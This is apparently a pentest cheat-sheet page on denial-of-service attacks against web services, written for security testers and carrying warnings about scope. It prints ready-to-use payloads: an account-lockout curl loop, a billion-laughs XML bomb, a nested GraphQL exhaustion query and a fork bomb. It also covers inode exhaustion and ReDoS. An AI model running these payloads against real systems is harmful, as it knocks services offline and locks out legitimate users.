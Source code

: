 # Denial of Service

> A Denial of Service (DoS) attack aims to make a service unavailable by overwhelming it with a flood of illegitimate requests or exploiting vulnerabilities in the target's software to crash or degrade performance. In a Distributed Denial of Service (DDoS), attackers use multiple sources (often compromised machines) to perform the attack simultaneously.

## Summary

* [Methodology](#methodology)
    * [Locking Customer Accounts](#locking-customer-accounts)
    * [File Limits on FileSystem](#file-limits-on-filesystem)
    * [Memory Exhaustion - Technology Related](#memory-exhaustion---technology-related)
* [References](#references)

## Methodology

Here are some examples of Denial of Service (DoS) attacks. These examples should serve as a reference for understanding the concept, but any DoS testing should be conducted cautiously, as it can disrupt the target environment and potentially result in loss of access or exposure of sensitive data.

### Locking Customer Accounts

Example of Denial of Service that can occur when testing customer accounts.
Be very careful as this is most likely **out-of-scope** and can have a high impact on the business.

* Multiple attempts on the login page when the account is temporary/indefinitely banned after X bad attempts.

    ```ps1
    for i in {1..100}; do curl -X POST -d "username=user&password=wrong" <target_login_url>; done
    ```

### File Limits on FileSystem

When a process is writing a file on the server, try to reach the maximum number of files allowed by the filesystem format. The system should output a message: `No space left on device` when the limit is reached.

| Filesystem | Maximum Inodes |
| ---        | --- |
| BTRFS      | 2^64 (~18 quintillion) |
| EXT4       | ~4 billion |
| FAT32      | ~268 million files |
| NTFS       | ~4.2 billion (MFT entries) |
| XFS        | Dynamic (disk size) |
| ZFS        | ~281 trillion |

An alternative of this technique would be to fill a file used by the application until it reaches the maximum size allowed by the filesystem, for example it can occur on a SQLite database or a log file.

FAT32 has a significant limitation of **4 GB**, which is why it's often replaced with exFAT or NTFS for larger files.

Modern filesystems like BTRFS, ZFS, and XFS support exabyte-scale files, well beyond current storage capacities, making them future-proof for large datasets.

### Memory Exhaustion - Technology Related

Depending on the technology used by the website, an attacker may have the ability to trigger specific functions or paradigm that will consume a huge chunk of memory.

* **XML External Entity**: Billion laughs attack/XML bomb

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE lolz [
    <!ENTITY lol "lol">
    <!ELEMENT lolz (#PCDATA)>
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
    <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
    <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
    <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
    <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
    <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
    <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    ]>
    <lolz>&lol9;</lolz>
    ```

* **GraphQL**: Deeply-nested GraphQL queries.

    ```ps1
    query { 
        repository(owner:"rails", name:"rails") {
            assignableUsers (first: 100) {
                nodes {
                    repositories (first: 100) {
                        nodes {
                            
                        }
                    }
                }
            }
        }
    }
    ```

* **Image Resizing**: try to send invalid pictures with modified headers, e.g: abnormal size, big number of pixels.
* **SVG handling**: SVG file format is based on XML, try the billion laughs attack.
* **Regular Expression**: ReDoS
* **Fork Bomb**: rapidly creates new processes in a loop, consuming system resources until the machine becomes unresponsive.

    ```ps1
    :(){ :|:& };:
    ```

## References

* [DEF CON 32 - Practical Exploitation of DoS in Bug Bounty - Roni Lupin Carta - October 16, 2024](https://youtu.be/b7WlUofPJpU)
* [Denial of Service Cheat Sheet - OWASP Cheat Sheet Series - July 16, 2019](https://cheatsheetseries.owasp.org/cheatsheets/Denial_of_Service_Cheat_Sheet.html)
